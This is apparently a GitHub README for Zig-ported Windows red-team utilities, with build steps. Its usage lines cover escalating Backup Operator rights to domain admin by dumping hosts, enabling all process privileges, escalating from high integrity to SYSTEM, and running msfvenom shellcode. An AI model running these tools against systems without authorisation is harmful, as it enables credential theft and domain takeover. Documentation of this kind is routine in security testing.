 # A small set of utilities ported to Ziglang (for fun and no profit)

## Contents

### BackupOperatorToDomainAdministrator.zig

As the name implies - with the right group / privileges - "there be dragons".

```powershell
# Dump workgroup box
.\BackupOperatorToDomainAdministrator.exe HOSTNAME/user:password@HOSTNAME \\HOSTNAME\share\

# Dump domain box
.\BackupOperatorToDomainAdministrator.exe DOMAIN/user:password@ip \\HOSTNAME\share\
```

### ModifyPrivilege.zig

Modify a processes privileges (enable/disable/remove)

```powershell
# Enable all privileges to the current terminal
.\ModifyPrivilege.exe 0

# Enable all privilges on this PID
.\ModifyPrivilege.exe <some pid>
```

### HighToSystem.zig

Provided a process in a 'high' context - leverage that to obtain `SYSTEM`.

```
.\HighToSystem.exe <pid> <fullpath to an executable>
```

### Shortcut.zig

Provided a quick utility to create shortcuts from the command line.

```
 .\Shortcut.exe  C:\windows\system32\cmd.exe C:\users\username\desktop\cmd.lnk C:\
```

### Shellcode

An example of shellcode execution on both Windows and Linux (i.e. msfvenom payload).

## Get and Build

```bash
git clone git@github.com:ArchiMoebius/zig-win32-utilities.git --recurse-submodules

# - OR -

git clone https://github.com/ArchiMoebius/zig-win32-utilities.git --recurse-submodules
```

### Setup Zig

#### WebInstall

Visit [webinstall](https://webinstall.dev/zig/) or just

```bash
curl -sS https://webi.sh/zig | sh
source ~/.config/envman/PATH.env
```

The above Creates `~/.local/opt/zig`

#### Download Ziglang

Visit [Zig](https://ziglang.org/download/) and download / extract the most recent tagged version.


### Build

Creates those `*.exe` files.

```bash
make
tree zig-out
```

### Development

Creates those `*.exe` and `*.pdb` files.

```bash
make debug
tree zig-out
```
